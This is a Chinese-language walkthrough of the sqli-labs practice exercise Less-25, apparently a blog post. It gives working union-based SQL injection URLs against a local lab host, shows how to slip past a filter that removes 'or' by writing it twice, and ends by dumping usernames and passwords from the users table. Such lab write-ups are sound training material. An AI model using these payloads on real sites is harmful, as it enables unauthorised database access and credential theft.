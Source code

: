 
# Sqli-labs-Less-25  方法一
![](https://img-blog.csdnimg.cn/20200723110937559.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=o31tT&originHeight=353&originWidth=1148&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**首先我们输入?id=1'**<br />http://169.254.4.80/sql/Less-25/?id=1'<br />报错<br />![](https://img-blog.csdnimg.cn/20200721161639175.png#crop=0&crop=0&crop=1&crop=1&id=LCHnm&originHeight=186&originWidth=1208&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**将?id=1' 进行注释，登录成功**<br />?id=1' --+<br />![](https://img-blog.csdnimg.cn/20200721161721251.png#crop=0&crop=0&crop=1&crop=1&id=mdAYz&originHeight=138&originWidth=425&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**使用order by查询有多少列**<br />http://169.254.4.80/sql/Less-25/?id=1' order by 3--+<br />发生报错，看下面的提醒，显示order by 不完整，说明将or进行了替换<br />![](https://img-blog.csdnimg.cn/2020072116183145.png#crop=0&crop=0&crop=1&crop=1&id=t3zhJ&originHeight=40&originWidth=557&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**双写or，登陆成功，说明有三列**<br />http://169.254.4.80/sql/Less-25/?id=1' oorrder by 3--+<br />![](https://img-blog.csdnimg.cn/20200721162006115.png#crop=0&crop=0&crop=1&crop=1&id=bVN7d&originHeight=162&originWidth=425&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看当前库**<br />http://169.254.4.80/sql/Less-25/?id=-1' union select 1,2,database()--+<br />![](https://img-blog.csdnimg.cn/20200721162122383.png#crop=0&crop=0&crop=1&crop=1&id=Zljsb&originHeight=150&originWidth=484&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看所有库**<br />http://169.254.4.80/sql/Less-25/?id=-1' union select 1,2,group_concat(schema_name) from information_schema.schemata--+<br />报错查看提示information不完整<br />![](https://img-blog.csdnimg.cn/20200721162241813.png#crop=0&crop=0&crop=1&crop=1&id=dY1YX&originHeight=39&originWidth=1201&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**将information中的or双写，成功**<br />http://169.254.4.80/sql/Less-25/?id=-1' union select 1,2,group_concat(schema_name) from infoorrmation_schema.schemata--+<br />![](https://img-blog.csdnimg.cn/20200721162334208.png#crop=0&crop=0&crop=1&crop=1&id=kwfca&originHeight=175&originWidth=1041&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看所有表（security）**<br />http://169.254.4.80/sql/Less-25/?id=-1' union select 1,2,group_concat(table_name) from infoorrmation_schema.tables where table_schema='security'--+<br />![](https://img-blog.csdnimg.cn/20200721162440950.png#crop=0&crop=0&crop=1&crop=1&id=otPGR&originHeight=165&originWidth=524&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看所有字段（users）**<br />http://169.254.4.80/sql/Less-25/?id=-1' union select 1,2,group_concat(column_name) from infoorrmation_schema.columns where table_name='users'--+<br />![](https://img-blog.csdnimg.cn/2020072116253295.png#crop=0&crop=0&crop=1&crop=1&id=O41Ur&originHeight=138&originWidth=450&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看所有账户和密码**<br />http://169.254.4.80/sql/Less-25/?id=-1' union select 1,2,group_concat(concat_ws('~',username,password)) from security.users--+<br />报错，查看提示显示password不完整<br />![](https://img-blog.csdnimg.cn/20200721162710237.png#crop=0&crop=0&crop=1&crop=1&id=pyheU&originHeight=43&originWidth=1211&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**将password中的or双写**<br />http://169.254.4.80/sql/Less-25/?id=-1' union select 1,2,group_concat(concat_ws('~',username,passwoorrd)) from security.users--+<br />![](https://img-blog.csdnimg.cn/20200721162813302.png#crop=0&crop=0&crop=1&crop=1&id=o5ioR&originHeight=198&originWidth=1373&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
